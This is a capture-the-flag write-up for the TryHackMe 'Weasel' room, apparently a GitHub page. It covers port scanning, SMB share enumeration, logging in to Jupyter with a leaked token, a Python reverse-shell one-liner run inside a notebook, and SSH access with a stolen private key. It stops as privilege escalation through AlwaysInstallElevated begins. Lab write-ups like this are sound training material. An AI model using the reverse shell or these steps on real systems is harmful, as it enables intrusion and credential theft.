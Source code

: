   ![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/f70b451f-cdde-4a6a-9c29-a88ef379d3d4)
  https://tryhackme.com/room/weasel

## Enumeration:

I started with the quick rustscan to scan for the open ports & services on the target. I found 15 open ports on the host:

```bash
sudo rustscan -a 10.10.165.102  -- -sC -sV -vv -oN weasel_nmap
```
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/72e347fb-ef6c-475a-b9d9-1ec51e111ab8)

```bash
PORT      STATE SERVICE       REASON          VERSION
22/tcp    open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b:17:d8:8a:1e:8c:99:bc:5b:f5:3d:0a:5e:ff:5e:5e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBae1NsdsMcZJNQQ2wjF2sxXK2ZF3c7qqW3TN/q91pWiDee3nghS1J1FZrUXaEj0wnAAAbYRg5vbRZRP9oEagBwfWG3QJ9AO6s5UC+iTjX+YKH6phKNmsY5N/LKY4+2EDcwa5R4uznAC/2Cy5EG6s7izvABLcRh3h/w4rVHduiwrueAZF9UjzlHBOxHDOPPVtg+0dniGhcXRuEU5FYRA8/IPL8P97djscu23btk/hH3iqdQWlC9b0CnOkD8kuyDybq9nFaebAxDW4XFj7KjCRuuu0dyn5Sr62FwRXO4wu08ePUEmJF1Gl3/fdYe3vj+iE2yewOFAhzbmFWEWtztjJb
|   256 3c:c0:fd:b5:c1:57:ab:75:ac:81:10:ae:e2:98:12:0d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOGl51l9Z4Mg4hFDcQz8v6XRlABMyVPWlkEXrJIg53piZhZ9WKYn0Gi4fKkzo3blDAsdqpGFQ11wwocBCSJGjQU=
|   256 e9:f0:30:be:e6:cf:ef:fe:2d:14:21:a0:ac:45:7b:70 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOHw9uTZkIMEgcZPW9Z28Mm+FX66+hkxk+8rOu7oI6J9
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2023-07-02T09:37:02+00:00
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Issuer: commonName=DEV-DATASCI-JUP
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-03-12T11:46:50
| Not valid after:  2023-09-11T11:46:50
| MD5:   1671 b190 2eb6 b15f 0c3f ab16 d3e6 6582
| SHA-1: c007 197a dd30 f17f 2bdb 65f8 1804 fc6f d081 c7c9
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQPvhxvXPCnJtIgyPRvn3WzjANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9ERVYtREFUQVNDSS1KVVAwHhcNMjMwMzEyMTE0NjUwWhcNMjMw
| OTExMTE0NjUwWjAaMRgwFgYDVQQDEw9ERVYtREFUQVNDSS1KVVAwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQD1iFFVyhggpi7wL6i/UpivF4ynWEUALMJh
| v8t3ypgM+Vrdp7sqDQciG7YMfGhYyz3Za4G03Ppgi+DUu/2qsYfGJbllz8IRaelq
| 5G5DPGSy0lYItHbWEvPbPSWTcEOrxQMIv98lBx5fHbmzIP1mEeIiS7p8bpWGfFuR
| Y/zvTOOWRHcT09/z+6YDdCTztLIgtrE+ZFW1yNUYxqCPl6EdKutmIzDUCDFUyvhq
| jOuv1R3M9XGPGomb99tAdPWQeXwjQfNrJdEsJ0DBz3D9T2pbfVwKINfDt1qCQfPO
| zu9v8OZhe+BYvS6289GNmCbiaCVbeJK2yokPdMFx4uLIT85U7IKBAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAiVcJyTne2cl+bKhmctqIva2DA/v9P0odeZe1hO8TG7J4UZGeK5bOqwdE
| bPDKBuxD+QYXWLm+/eHgKKMwKemYp4iDcIMGfb5UgzkRe8RaI5kKiiPQSarFKIZe
| WphDWZrLDo9IN58b081R4k82IfGv7yXtIjZcral4fCEHhhTdVE2CvHvE1JGXSWbY
| NHoufyrjizsaLHAchdnuHgaz+cgcFgR/hD61vQpc8pW+v6xDNVtMFVdv7lLtbWov
| /dcC6Yd2jtk8sP7ue7K+FOhLaw9UDbji3XCXn0FoJwKBza/K8smP0M/3fHIqoFA2
| mc4b7D2CUHt9FNWIWyz9evlNAOixvg==
|_-----END CERTIFICATE-----
|_ssl-date: 2023-07-02T09:37:11+00:00; +2s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8888/tcp  open  http          syn-ack ttl 127 Tornado httpd 6.0.3
|_http-favicon: Unknown favicon MD5: 97C6417ED01BDC0AE3EF32AE4894FD03
| http-methods: 
|_  Supported Methods: GET POST
| http-robots.txt: 1 disallowed entry 
|_/ 
|_http-server-header: TornadoServer/6.0.3
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 44682/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 41197/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38094/udp): CLEAN (Failed to receive data)
|   Check 4 (port 61785/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-07-02T09:37:05
|_  start_date: N/A
```

Few observables from the port scan results:

```
- SMBv2 is enables but message signing is not enforceed.
- RDP is enbale on port 3389 & target name is: DEV-DATASCI-JUP
- port 5985 is open which powershell remoting is enabled.
- port 8888 is open & running TornadoServer/6.0.3 which is hosting Jupyter notebook.
```

### SMB enumeration:

Since the SMB is enabled, I started enumerating the network shares which is available for me. I used SMBmap to list all shares:

```bash
smbmap -H weasel.thm -u RandomUser
```
I observed that I have Read & Write access to "datasci-team" share & Read access to IPC$ share.

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/0b11cea9-cf6e-48e2-b30b-1925210a35f8)

When checked for "datasci-team" share, I observed multiple files present in it, which I listed using smbmap:

```bash
smbmap -R datasci-team -H weasel.thm -u DoesNotExist
```
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/dd41e754-5ae5-4ddb-89cc-4848a4a26759)

I downloaded all those files in my local system after connecting via Smbclient:

```bash
smbclient \\\\weasel.thm\\datasci-team -U "DoesNotExist"

smb: \> prompt off #to turn off warnings
smb: \> recurse on #to turn on recursive mode
smb: \> mget * #to download everything from current file path.
```
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/37532ed1-c2f3-48cb-a847-54743fdcfe28)

After downloading all the files, I went through them & found a Jupyter-token inside one of the file.

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/2af6f790-3a09-4a3f-926d-f87e2cd0ef65)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access:

From the port scan results I was already aware that port 8888 is running the tornado server & hosting Jupyter notebook in it, so I went to the server & found an option to login using jupyter token:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/b5e2db75-db1b-4584-ac65-29562b8e43ee)

I used the Jupyer token which I found during my SMB scan to login into the server & I logged in successfully:
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/485629a3-b49a-4645-b962-2500e3af6e86)

After logging in I found the same files which I observed when I enumerated through the "**datasci-team**" share. Then I opened of of the Machine learning file "weasel.ipynb" & went through it's content:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/316183bd-3700-45f2-b293-3780eebd377b)

I found that there are modules running inside the file & we can also our own module which will be executed by Python, so I used one of the Python reverse shell one-liner & added to the file.

```python3
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

After running the above code I quickly got the shell back to my netcat listener as a "dev-datasci" user.(pwn3d!🙂)
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/b034c290-d9a1-4403-a173-c1b317f3abcc)

### User access:

When I got the initial access as the "dev-datasci" user I searched for other user inside the machine but didn't found any of the user, I checked for the running processes & found very few processes running. 
I thought may be I am in a docker container but when I check further I found that I am inside a Windows machine & running inside windows subsystem for Linux (WSL):

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/4a4b80e1-7c6e-4bfb-a4d2-15a86ea02bd4)
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/49e57493-30ca-45a7-adb0-c5d9467ef58f)

I then checked the home directory of the user as part of manual enumeration & found a file "dev-datasci-lowpriv_id_ed25519", which contains the private SSH key.
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/3880ef50-322a-4a68-89ad-904361f04f73)

I copied the key in my local machine with the file name id_rsa, modified the permissions to "chmod 600" to use it in the SSH logon & then performed the SSH logon using the user: "dev-datasci-lowpriv".

```bash
ssh -i id_rsa dev-datasci-lowpriv@weasel.thm
```

I logged in successfully & got the cmd prompt as user "dev-datasci-lowpriv". (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/6b6ec7de-688f-4492-9774-211d025a1913)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Privilege Escalation:

After gaining access to the low privilege user & getting user flag, I started seraching for the privilege esclation vectors.
I executed WinPeas to check for the all possible privilege escalation vectors & observed some juicy results in "AlwaysInstallElevated" privilege. I found that AlwaysInstallElevated is set to '1' in both HKLM & HKCU.

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/1847e73d-72f2-4c3c-9eb2-be7bc8ce9f30)



